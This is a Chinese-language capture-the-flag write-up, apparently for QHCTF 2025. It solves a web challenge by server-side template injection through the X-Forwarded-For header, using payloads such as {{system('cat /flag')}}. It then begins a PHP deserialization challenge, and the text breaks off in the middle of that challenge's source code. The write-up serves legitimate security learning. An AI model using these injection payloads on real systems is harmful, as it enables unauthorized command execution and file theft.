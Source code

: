 ![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737797930275-6e900950-cf21-4694-9905-086a58651f62.png)

点击flag后出现ip提示

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737797982680-78ffe4f8-c84e-4162-b79d-6bef6a50f4a2.png)

没什么头绪点击hint寻找线索 打开源代码后发现一段注释 询问为什么知道我的ip

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737798101582-77183a0e-7f1e-4c64-94dc-31188073dcd2.png)

猜测肯是ssti模板注入 利用burpsite抓包尝试通过<font style="color:rgb(56, 58, 66);background-color:rgb(250, 250, 250);">X-Forwarded-For参数注入</font>

```php
X-Forwarded-For：{{2*2}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737798514987-55eede97-8d07-46fc-bb60-ef2f91de57fc.png)

发现回显为4 尝试能否执行php语句

```php
X-Forwarded-For:{{system('ls')}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737798823105-d3aa4ef8-525c-4e2c-a4fd-fce1dbbe77d6.png)

查看响应包发现flag文件接着读取flag

```php
X-Forwarded-For:{{system('cat flag')}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737798936754-14906f9d-a7f0-4082-b61e-c2e25f46829b.png)

发现不是正确的 接着寻找更目录下的文件

```php
X-Forwarded-For:{{system('ls /')}}
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737798992563-87f15731-c4ae-45da-890a-1a5c7b94484c.png)

```php
X-Forwarded-For:{{system('cat /flag')}}
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737799030375-9a12f15f-0f3c-495b-bc36-ee8974709de2.png)

#### Web_pop
根据题目提示得知是php反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class Start{
    public $name;
    protected $func;
 
    public function __destruct()
    {
        echo "Welcome to QHCTF 2025, ".$this->name;
    }
 
    public function __isset($var)
    {
        ($this->func)();
```